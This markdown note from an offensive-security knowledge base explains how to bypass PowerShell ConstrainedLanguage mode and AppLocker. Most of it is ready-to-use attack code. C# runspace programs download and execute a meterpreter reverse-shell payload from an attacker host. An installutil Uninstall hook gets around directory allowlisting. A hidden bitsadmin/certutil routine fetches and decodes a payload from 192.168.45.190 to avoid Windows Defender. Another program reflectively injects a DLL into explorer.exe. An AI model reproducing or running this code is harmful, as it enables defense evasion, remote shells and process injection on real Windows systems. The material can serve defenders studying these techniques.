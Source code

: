 ```yaml
---
title: PowerShell AppLocker bypass
tags:
  - breach
  - operations
  - applocker
  - powershell
  - bypass
  - allowlist
  - whitelist
---
```


## Language modes

To get our current user's **PowerShell** language mode, invoke the following:

```powershell
$ExecutionContext.SessionState.LanguageMode
```

Under `ConstrainedLanguage` mode, only scripts that comply with the
**AppLocker** allowlist, existing within a allowlisted directory or comply with
a allowlisting rule, can execute with full functionality. These limitations also
restrict users from invoking the **.NET** framework from PowerShell to execute
C# code or conduct reflection.

## Creating a custom runspace

PowerShell functionality exists within the `System.Management.Automation.dll`
managed DLL, used by PowerShell to create a **runspace**. **Runspaces** are how
PowerShell managed jobs, multithreading, and parallel task execution, accessible
to managed code written in C# and .NET.

Creating a C# .NET project, we can create our own runspace with the following
code, bypassing the `ConstrainedLanguage` mode, and executing a PowerShell
**meterpreter** reverse shell payload:

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace Bypass
{
    class Program
    {
        static void Main()
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            String cmd = "(Invoke-RestMethod -Uri 'http://${LHOST}:${LPORT}/Payload.ps1' -UseBasicParsing) | Invoke-Expression";
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

## Bypass directory restrictions with installutil

Using code from our C# .NET project in the previous section,
[[powershell-applocker-bypass#Creating a custom runspace|Creating a custom runspace]],
we can create a project with valid symbols for the Windows `installutil.exe`
utility:

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main()
        {
            Console.WriteLine("");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            String cmd = "(Invoke-RestMethod -Uri 'http://${LHOST}:${LPORT}/Payload.ps1' -UseBasicParsing) | Invoke-Expression";
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

### Transferring the payload

The problem with using `installutil.exe` is that the payload needs to be written
to disk, creating an opening for Windows Defender to scan and inspect our
payload during download as well as storage on the host. We can use a combination
of `bitsadmin.exe` and `certutil.exe` to securely transfer the payload and
execute it.

The following invocation uses `certutil.exe` to encode the payload:

```powershell
certutil -encode "${PAYLOAD_PATH}" "${OUTFILE}"
```

The following invocation downloads the encoded payload from your attacker host
and executes it:

```powershell
$InstallUtilProgram = (Get-ChildItem `
	-ErrorAction SilentlyContinue `
	-Path "C:\Windows" `
	-Filter "installutil.exe" `
	-Recurse `
	-File | Where-Object {$_.FullName -Like "*Framework64\v4*"}).FullName
$BitsAdminProgram = (Get-Command -Name "bitsadmin").Source
$CertUtilProgram = (Get-Command -Name "certutil").Source

$lHost = "192.168.45.190"
$lPort = "80"
$encodedFileName = "encoded.txt"
$uri = "http://${lHost}:${lPort}/$encodedFileName"
$decodedFileName = "Bypass.exe"
$encodedFilePath = (Join-Path `
	-Path (Resolve-Path -Path .).Path `
	-ChildPath $encodedFileName
)
$decodedFilePath = (Join-Path `
	-Path (Resolve-Path -Path .).Path `
	-ChildPath $decodedFileName
)

Start-Process `
	-FilePath $BitsAdminProgram `
	-ArgumentList @(
		"/TRANSFER",
		"transferJob",
		$uri,
		$encodedFilePath
	) `
	-WindowStyle Hidden `
	-Wait

Start-Process `
    -FilePath $CertUtilProgram `
    -ArgumentList @(
	    "-decode",
	    $encodedFilePath,
	    $decodedFilePath
    ) `
    -WindowStyle Hidden `
    -Wait

Remove-Item -Path $encodedFilePath

Start-Process `
    -FilePath $InstallUtilProgram `
    -ArgumentList @(
	    "/LogFile=",
	    "/LogToConsole=false",
	    "/U",
	    $decodedFilePath
    ) `
    -WindowStyle Hidden
```

Make sure to host your payload on an HTTP server that supports `bitsadmin`, e.g.
`apache2`:

```bash
sudo systemctl start apache2
```

## Reflective DLL injection

Using
[Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
from **PowerSploit**, we can also inject meterpreter reverse shell payload DLLs
into target processes through this PowerShell code execution bypass using C#
.NET.

The following C# .NET project uses the previous `installutil.exe` technique to
download a payload from our attacker host and inject it into the `explorer.exe`
process:

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main()
        {
            Console.WriteLine("");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            String cmd =
@"$bytes = (Invoke-WebRequest -Uri 'http://${LHOST}:${LPORT}/Payload.dll' -UseBasicParsing).Content
(Invoke-RestMethod -Uri 'http://${LHOST}:${LPORT}/Invoke-ReflectivePEInjection.ps1') | Invoke-Expression
$procid = (Get-Process -Name explorer).Id
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid -ErrorAction SilentlyContinue";
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

## Related pages

- [[bypassing-application-whitelisting|Bypassing application whitelisting]]
